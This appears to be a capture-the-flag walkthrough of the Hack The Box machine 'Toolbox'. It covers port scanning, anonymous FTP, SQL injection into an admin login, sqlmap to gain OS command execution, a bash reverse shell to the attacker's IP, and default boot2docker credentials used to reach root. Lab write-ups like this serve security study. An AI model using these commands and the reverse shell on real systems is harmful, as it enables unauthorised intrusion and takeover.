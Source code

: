 ```yaml
---
tite: Toolbox
date: 2023-01-04 13:30:03 -5000
categories: [HTB,Easy,Linux]
tags: [Web,Network,Misconfiguration,Default Credentials,Weak Authentication,SQL Injection,Protocols,]
---
```

# Toolbox (HTB Easy)
![image description](/Assets/Pictures/Toolbox/Toolbox.png)

# 🔎 Intell/Recon

## Intellingence Gathering

Here we kick off our **nmap** scan in order to see which technology is being run on the server

Here is the results of our different scans

First we look for open ports

`nmap -p- -vv --min-rate 5000 --reason -oN ./Nmap/initial.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (4).png" alt=""><figcaption><p><em>Open ports</em></p></figcaption></figure>

We can now check the service Version in order to gatherr more information

`nmap -sV -p- -vv --min-rate 5000 -oN ./services-scripts.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (1).png" alt=""><figcaption><p><em>Services Enumeration</em></p></figcaption></figure>

## Enumeration

### FTP

Let's start with the low hanging fruit as _@thecybermentor_ always thought us. For this system here. It make sense to start with FTP on port 21. \
We do not have credentials so we will get it with the anonymous login

<figure><img src="/Assets/Pictures/Toolbox/image (8).png" alt=""><figcaption><p><em>FTP session</em></p></figcaption></figure>

This file is too heavy, for me to download. I will keep that in mind that the system has a docker-toolbox.exe file. Which suggest that the system must have docker installed in it. There is sadly nothing more to see here

### HTTPS

Now let's visit the webpage at `https://10.10.10.236/`

<figure><img src="/Assets/Pictures/Toolbox/image (12).png" alt=""><figcaption><p><em>the Website</em></p></figcaption></figure>

As we can see it's more of a static webpage. I checked the source code and ran some directory busting but nothing really juicy is coming out. Then I needed to check for the presence of Virtual Hosts (VHOST) on the target. The are two ways to do it. First, I check with the scripts of nmap cause it leaks sometimes. I did not need to run any directory busting to find the vhost it was there while getting the nmap script

`nmap -sVC -p443 -vv -T5 -oN services-HTTPS.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image.png" alt=""><figcaption><p><em>Nmap service Version &#x26; Scripts</em></p></figcaption></figure>

We found our VHOST which is _**admin.megalogistic.com**_** ** and we also found a username which is _'admin'_

# 👣 Foothold

We have the admin subdomain and we know the username to access the admin panel.

for that let's add the new subdomain to our hosts file with the following:&#x20;

`echo "10.10.10.236    admin.megalogistics.com" | sudo tee -a /etc/hosts`

<figure><img src="/Assets/Pictures/Toolbox/image (10).png" alt=""><figcaption><p><em>login panel of admin.megalogistic.com</em></p></figcaption></figure>

I tried the usual admin:admin but no success. Since it's login form next thing would be to fire burp and see what's going on. But before that, let's try some SQL injection payloads to see what's going on here. I tried with the login = admin' or 1=1. There was an interesting error message suggesting that we have an sqlinjection vulnerability here.

Here is the error message, I got&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (13).png" alt=""><figcaption><p><em>Error from login Panel</em></p></figcaption></figure>

From the error we can literally see the SQL query that helps the user to log in. So from Burpsuite, we will get the POST request and use SQLMap in order to exploit this vulnerability

# 📚 SQLMap

The command was simple. I had to copy the POST request from Burpsuite into a file and then use it to test and see what we can get. I tried first to run a system command in order to see that it's vulnerable\
`sqlmap -r request.txt --batch --force-ssl  --os-cmd whoami`` `_``_&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (6).png" alt=""><figcaption><p><em>SQLMap results</em></p></figcaption></figure>

Since we are able to see the user on the system, we can get a reverse shell as well.

With the following:

`sqlmap -r request.txt --batch --force-ssl   --os-shell`

<figure><img src="/Assets/Pictures/Toolbox/image (7).png" alt=""><figcaption><p><em>SQLMap os-shell</em></p></figcaption></figure>

The next thing that needs to be done is to get a stable reverse-shell since this one can not be used for enumeration. In order to do so we will need to have our listener set with _nc -nvlp 9090_ on our terminal and the following to get our rever-shell.&#x20;

`bash -c "bash -i >& /dev/tcp/[YOUR-IP]/9090 0>&1"`

<figure><img src="/Assets/Pictures/Toolbox/image (2).png" alt=""><figcaption></figcaption></figure>

# 🏴☠ User Flag

Since the user in the system is _postgres_ we need to navigate to that directory in order to get the flag

<figure><img src="/Assets/Pictures/Toolbox/image (11).png" alt=""><figcaption><p><em>User flag</em></p></figcaption></figure>

After getting the, I spent time enumerating the box. Found the real I.P and the hostname. Which is not similar to the one we are going after. We are suppose to be attacking a windows machine but seems like we need to pivot to the target

<figure><img src="/Assets/Pictures/Toolbox/image(14).png" alt=""><figcaption><p><em>System Enumeration</em></p></figcaption></figure>

After the enumeration and looking at the info i gathered. I remember I have found a docker file in the FTP server. After checking on the documentation, I can ssh to the docker

# 🏁 Privesc

Now that we know we can ssh to the docker container. I could not find any credentials on the system. A little search lead me to this [Github Page](https://github.com/boot2docker/boot2docker#ssh-into-vm). In order to understand more on what is happening and see what are the default credentials. __&#x20;

using ssh, I was able to get the docker instance.

_`ssh docker@172.17.0.1`_

_We used 172.17.0.1 since the other box where we got our foothold had an address of 172.17.0.2 which in turn suggest that the docker machine should be at 172.17.0.1_

<figure><img src="/Assets/Pictures/Toolbox/image (5).png" alt=""><figcaption><p><em>Boom ! docker admin user</em></p></figcaption></figure>

Now that we are in the container, we can run some commands to see how to privesc. In order to do that we will need to run some OS commands in order to enumerate the system. turns out,&#x20;

_`sudo -l`_ was enough for us, and running _`sudo su`_ gives the root shell

<figure><img src="/Assets/Pictures/Toolbox/image (9).png" alt=""><figcaption><p><em>Windows File System</em></p></figcaption></figure>

Keep in mind it's a windows machine so the path should be same as the traditional. Which is

_C:\Users\Administrator\\_ the flag should be sitting somewhere in the admin directory.\
\
Thanks for reading. This is my first write-up. Hope this was helpful.
### Happy Hacking !